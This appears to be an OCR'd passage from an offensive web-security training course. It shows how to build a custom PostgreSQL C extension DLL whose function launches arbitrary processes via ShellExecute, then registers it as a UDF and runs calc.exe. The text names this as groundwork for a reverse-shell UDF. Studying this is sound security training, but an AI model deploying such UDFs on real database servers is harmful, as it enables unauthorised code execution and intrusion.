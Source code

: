 ```
26:     int instances = PG_GETARG_INT32(1);
27: 
28:     for (int c = 0; c < instances; c++) {
29:         /*launch the process passed in the first parameter*/
30:         ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
31:     }
32: 	PG_RETURN_VOID();
33: }
```

> Listing 42 - Sample code to get you started

Looking at the source code in Listing 42, we can see that the _awae_ function will launch an arbitrary process (passed to the function as the first argument) using the Windows native _ShellExecute_ function, in a loop that is bound by the second argument passed to the function.

Although this example may seem trivial, it shows how we need to properly handle any argument that is passed to our function in a Postgres-specific DLL through the use of relevant Postgres macros (lines 22, 26 and 30). This will be useful later on to avoid hardcoding the IP address and port for our fully functional reverse shell User Defined Function (UDF).

The template from Listing 42 should be all we need to build a basic extension. We can initiate the build process by pressing the C + B+ b keys in the virtual machine or going to _Build_ > _Build Solution_ in Visual Studio.

```
------ Build started: Project: awae, Configuration: Release Win32 ------
   Creating library C:\Users\Administrator\source\repos\awae\Release\awae.lib and object C:\Users\Administrator\source\repos\awae\Release\awae.exp
Generating code
Finished generating code
All 3 functions were compiled because no usable IPDB/IOBJ from previous compilation was found.
rs.vcxproj -> C:\Users\Administrator\source\repos\awae\Release\awae.dll
Done building project "rs.vcxproj".
========== Rebuild All: 1 succeeded, 0 failed, 0 skipped ==========
```

> Listing 43 - Building the new extension

### 3.6.2. Testing the Extension

In order to test our newly-built extension, we need to first create a UDF. We can look back on Listing 40 to remind ourselves how to create a custom function in PostgreSQL.

For example, the following queries will create and run a UDF called _test_, bound to the _awae_ function exported by our custom DLL. _Note that we have moved the DLL file to the root of the C drive for easier command writing._

```
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);
```

> Listing 44 - The code to load the extension and run the test function
